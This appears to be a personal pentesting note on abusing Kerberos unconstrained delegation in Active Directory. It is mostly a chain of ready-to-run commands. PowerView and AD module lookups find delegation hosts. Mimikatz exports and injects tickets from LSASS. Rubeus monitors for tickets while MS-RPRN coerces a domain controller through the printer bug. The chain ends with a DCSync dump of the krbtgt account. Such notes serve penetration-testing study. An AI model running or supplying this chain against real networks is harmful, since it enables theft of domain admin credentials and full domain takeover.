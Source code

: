```yaml
---
tags:
  - privesc
cssclasses:
  - MimiKatz
  - LSASS
  - Rubeus
---
```

#### Introduction

- When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user.
- When unconstrained delegation is enabled, the DC places user's TGT inside TGS. When it is presented to the server, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user.
- This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.

```powershell title:"Discover domain computers which have unconstrained delegation using PowerView"
Get-DomainComputer -UnConstrained
```

```powershell title:"Discover domain computers or users which have unconstrained delegation enabled using ActiveDirectory module"
Get-ADComputer -Filter {TrustedForDelegation -eq $true}
Get-ADUser -Filter {TrustedForDelegation -eq $true}
```

After compromising the server where Unconstrained delegation is enabled, we must trick or wait for a domain admin to connect a service on the application server.

```powershell title:"Get the TGT from LSASS after Domain Admin has logged in"
Invoke-MimiKatz -Command '"sekurlsa::tickets /export"'
```

```powershell title:"Re-use the Domain Admin's TGT by Pass-The-Ticket"
Invoke-MimiKatz -Command '"kerberos::ptt C:\path\to\ticket.kirbi"'
```

#### Printer Bug

- This is a method to trick a high privilege user to connect to a machine with Unconstrained Delegation.
- A feature of MS-RPRN (Microsoft-Print System Remote Control) which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to a second machine of the domain user's choice.

```batch title:"Sniff the TGT of the high privileged account in the machine where Unconstrained Delegation is enabled"
Rubeus.exe monitor /interval:5 /nowrap
```

```batch title:"Use MS-RPRN to make the high privileged account (in DC) connect to the machine with Unconstrained Delegation enabled"
MS-RPRN.exe \\domain-controller-fqdn \\unconstrained-delegation-enabled-fqdn
```

In Rubeus, the base64 TGT will appear

```batch title:"Pass-The-Ticket on your initial foothold"
Rubeus.exe ptt /ticket:<base64_tgt>
```

```powershell title:"Try DCSync once the ticket is injected"
Invoke-MimiKatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

This attack can work across forests if TGT delegation is enabled.


